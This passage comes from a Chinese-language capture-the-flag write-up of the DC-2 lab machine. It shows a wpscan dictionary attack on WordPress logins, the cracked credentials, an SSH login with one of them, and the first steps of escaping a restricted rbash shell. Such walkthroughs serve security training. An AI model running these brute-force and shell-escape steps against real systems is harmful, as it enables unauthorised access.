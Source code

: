 ```
wpscan --url http://dc-2/ -U users.txt -P dict.txt
```

```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

成功爆破出了两个用户名和密码，没有admin的  

![upload successful](https://lnng.top/images/pasted-131.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#%E5%B0%9D%E8%AF%95%E7%99%BB%E5%BD%95%EF%BC%8C%E7%99%BB%E5%BD%95%E6%88%90%E5%8A%9F%EF%BC%8C%E4%B8%94%E5%9C%A8page%E4%B8%AD%E5%8F%91%E7%8E%B0flag2 "尝试登录，登录成功，且在page中发现flag2")尝试登录，登录成功，且在page中发现flag2

![upload successful](https://lnng.top/images/pasted-133.png)

**upload successful**

  
提示无法利用wordpress采取捷径，尝试令一种方法，之前nmap扫描出了7744端口，那么我们是不是可以尝试ssh登录  
发现使用tom账号登录成功

```
ssh tom@192.168.124.146 -p 7744
password:parturient
```

### [](https://lnng.top/posts/2ea3.html#%E5%B0%9D%E8%AF%95%E8%AF%BB%E5%8F%96%E6%96%87%E4%BB%B6 "尝试读取文件")尝试读取文件

![upload successful](https://lnng.top/images/pasted-134.png)

**upload successful**

  
发现被rbash，也就是说是被受限的shell  
参考链接:[freebuf](https://www.freebuf.com/articles/system/188989.html)

先尝试”/“能不能用

![upload successful](https://lnng.top/images/pasted-136.png)

**upload successful**

  
cp命令

![upload successful](https://lnng.top/images/pasted-137.png)

**upload successful**
